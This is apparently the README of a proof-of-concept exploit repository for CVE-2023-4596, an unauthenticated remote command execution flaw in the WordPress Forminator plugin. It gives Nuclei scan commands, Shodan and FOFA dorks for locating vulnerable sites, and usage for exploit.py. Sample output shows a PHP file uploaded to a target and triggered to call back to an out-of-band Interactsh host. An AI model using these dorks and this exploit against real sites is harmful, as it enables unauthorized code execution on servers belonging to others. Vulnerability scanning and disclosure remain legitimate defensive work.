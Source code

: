 # CVE-2023-4596 
![](https://img.shields.io/static/v1?label=Product&message=Wordpress&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Forminator%20<=%201.24.6&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Command%20Execution&color=red)

More information see [here.](https://securityonline.info/cve-2023-4596-critical-wordpress-plugin-forminator-flaw-affects-over-400k-sites/)

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/pull/8118/files)

```
nuclei -target <target> -t CVE-2023-4596.yaml
```
```
nuclei -target <target_file> -t CVE-2023-4596.yaml
```
- Shodan dork:
```
http.html:"/wp-content/plugins/forminator"
```
- FOFA dork:
```
body="/wp-content/plugins/forminator"
```
### Usage
Generate [Interactsh link](https://app.interactsh.com/#/)
```
python3 exploit.py -u https://target-IP/?p=7
```
```
Input interactsh link: ckr8x142vtc0000kbk9ggjhrqowyyyyyb.oast.fun
  [+] Vulnerable version found: 1.24.6
  [+] Sending payload to target
  [+] Successful file upload!

Uploaded File Location: https://target-IP/wp-content/uploads/2023/08/QotTkAFBsf.php

  [+] Sending request to uploaded file...
  [+] Successfully triggered the uploaded file!
  [+] Check Interactsh for an incoming request.
```

